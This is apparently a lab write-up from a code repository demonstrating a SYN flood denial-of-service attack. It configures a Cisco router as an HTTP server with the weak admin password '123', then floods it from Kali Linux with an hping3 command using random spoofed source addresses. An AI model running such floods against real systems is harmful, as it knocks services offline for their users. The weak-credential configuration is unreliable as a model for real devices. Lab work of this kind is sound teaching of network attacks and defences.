







## DDOS attack: SYN Flood Attack

- First we config the router:

```
Router> en
Router#
Router# config t "or terminal"
Router(config)#
Router(config)# hostname SRV
SRV(config)#
SRV(config)# interface f0/0
SRV(config-if)#
SRV(config-if)# ip address dhcp
SRV(config-if)# no shutdown
SRV(config-if)# exit
SRV(config)# ip http ser
SRV(config)# ip http authentication local
SRV(config)# username admin privilege 15 password 123
SRV(config)# do wr
SRV(config)# ^Z (ctrl + Z)
SRV# show ip

```
- Let's find out our kali linux ip:
    ```
    $ sudo su
    ```
    then : 
    ```
    $ ifconfig
    ```
- now we can access the SRV throuhg browser:


- If we check wireshark we could capture syn , [syn, ack], and ack as the three way handshaking of TCP:


- Now we are ready to attack:
```
hping3 -c 15000 -d 120 -w 64 -p 80 --flood --rand-source 192.168.128.140 
```

- The results are shown below:



- Now if we stop the attack after a few seconds, SRV is back to normal again. (pay attention to the time!):


___
